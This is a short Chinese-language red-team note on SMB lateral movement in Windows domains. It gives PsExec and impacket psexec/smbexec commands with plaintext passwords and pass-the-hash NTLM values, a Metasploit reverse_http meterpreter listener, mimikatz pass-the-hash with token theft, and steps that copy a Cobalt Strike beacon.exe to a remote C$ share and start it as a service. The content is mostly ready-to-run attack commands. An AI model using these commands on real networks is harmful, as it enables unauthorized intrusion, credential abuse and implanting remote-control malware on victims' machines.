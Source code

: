 SMB横向

利用SMB服务可以通过明文或hash传递来远程执行，条件445服务端口开放。

1.psexec（windows官方工具）

可获取交互式shell使用工具为windows官方工具
下载地址
https://docs.microsoft.com/en-us/sysinternals/downloads/pstools
Default
PsExec64.exe \\10.211.55.10 -u administrator -p admin!@#45 -s cmd

2.psexec（impacket套件）

可获取交互式shell使用工具为impacket套件，可使用hash传递
Default
psexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@10.211.55.10

因cs无法操作交互式命令，也可引用MSF回显反弹接受会话
CS创建监听
Default
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 8888
run

执行spawn msf


3.利用cs中的psexec上线内网不出网主机

探测网段主机存活，设置正向监听进行上线cs

4.smbexec
外部：(交互式)
Default
smbexec ./administrator:admin!@#45@192.168.3.32
smbexec god/administrator:admin!@#45@192.168.3.32
smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32
smbexec -hashes :518b98ad4178a53695dc997aa02d455c god/administrator@192.168.3.32smbexec -hashes god/administrator:518b98ad4178a53695dc997aa02d455c@192.168.3.32

PTH-mimikatz

使用cs的mimikatz进行pth，发现执行后在目标主机上弹出cmd窗口，可利用进程窃取，直接在cs上进行远程操作。
Default
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:administrator /domain:10.211.55.7 /ntlm:518b98ad4178a53695dc997aa02d455c
steal_token 3420
dir \\10.211.55.7\c$

可以看到运行mimikatz之后会生成的cmd进程。
利用cs进程劫持，劫持cmd进程，然后可发现成功执行目标机命令。
之后可复制文件，创建启动服务命令上线CS
Default
net use \\10.211.55.7\c$
copy beacon.exe \\10.211.55.7\c$
sc \\TALE2B52 create csshell binpath= "c:\beacon.exe"
sc \\TALE2B52 start csshell
